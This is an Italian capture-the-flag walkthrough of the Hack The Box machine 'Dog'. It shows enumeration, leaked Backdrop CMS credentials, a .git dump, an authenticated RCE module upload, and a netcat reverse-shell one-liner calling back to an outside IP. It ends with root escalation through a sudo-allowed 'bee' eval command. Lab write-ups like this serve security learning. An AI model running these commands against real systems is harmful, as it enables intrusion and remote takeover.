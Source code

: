 # DOG – HTB Walkthrough

## 📍 Enumeration

```bash
nmap -sS -p- dog -T5
```

Output:

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Port 80 mostra un sito web con pagine di **login** e **reset password**. Nella pagina di reset, l'input dell'utente viene riflesso direttamente nell'HTML. Esempio:

```plaintext
Sorry, abc; is not recognized as a user name or an email address.
```

In fondo alla pagina si nota: `Powered by Backdrop CMS`

## 🔎 Config e Git leak

Backdrop salva le configurazioni in percorsi prevedibili:

```
http://dog/files/config_<hash>/active/
```

Esplorando `/files/`, si trova:

```
config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/
```

Dentro i file config, si estrae l'email `tiffany@dog.htb` e si trovano anche le credenziali nel file `settings.php`:

```php
'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop'
```

Successivamente, si prova ad accedere alla root del progetto Git:

```
http://dog/.git
```

Con `git-dumper` si clona il repository:

```bash
git-dumper http://dog/.git dog_repo
```

## 🔎 Admin Login & Exploit

Tramite la password trovata nel config, si accede al pannello admin di Backdrop.
Versione: **Backdrop CMS 1.27.1**

```bash
searchsploit CMS 1.27.1
```

Risultato:

```
Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE) | php/webapps/52021.py
```

Si genera l'exploit:

```bash
python3 52021.py http://dog
```

Questo crea il file `shell.zip`. Backdrop non accetta `.zip`, quindi:

```bash
tar -czf shell.tar.gz shell/
```

Upload del modulo via interfaccia admin: `http://dog/admin/modules/install`

Una volta installato, si accede a:

```
http://dog/modules/shell/shell.php
```

E si esegue una reverse shell:

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.3 8080 >/tmp/f
```

Listener:

```bash
nc -lvnp 8080
```

## 🧹 Accesso come johncusack

La stessa password di MySQL funziona anche per l'utente `johncusack`, sia via shell che via SSH:

```bash
ssh johncusack@dog
Password: BackDropJ2024DS2024
```

Si ottiene la flag user:

```bash
cat ~/user.txt
[REDACTED]
```

## 🚁 Privilege Escalation via bee

```bash
sudo -l
```

Output:

```
(ALL : ALL) /usr/local/bin/bee
```

Si nota che `bee` è un link a uno script PHP:

```bash
ls -l /usr/local/bin/bee
lrwxrwxrwx 1 root root 26 Jul  9  2024 /usr/local/bin/bee -> /backdrop_tool/bee/bee.php
```

Testando un comando:

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "system('id');"
```

Risultato:

```
uid=0(root) gid=0(root) groups=0(root)
```

🚀 BOOM! Possiamo eseguire comandi come root.

### Shell completa:

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash');"
```

E la flag root:

```bash
cat /root/root.txt
[REDACTED]
```

## 🏁 Summary

| Step          | Description                                                 |
| ------------- | ----------------------------------------------------------- |
| Enumeration   | Identificati Backdrop CMS e leak nei file di configurazione |
| Git Leak      | Dump del repository tramite `.git/`                         |
| Admin Login   | Credenziali da `settings.php`                               |
| Exploit       | RCE autenticato con modulo Backdrop (tar.gz)                |
| Reverse Shell | Shell ottenuta via PHP webshell                             |
| SSH           | Login come `johncusack` con stessa password                 |
| PrivEsc       | `sudo bee` consente esecuzione comandi root                 |
| Root Flag     | Letta da `/root/root.txt`                                   |

🎉 Rooted!

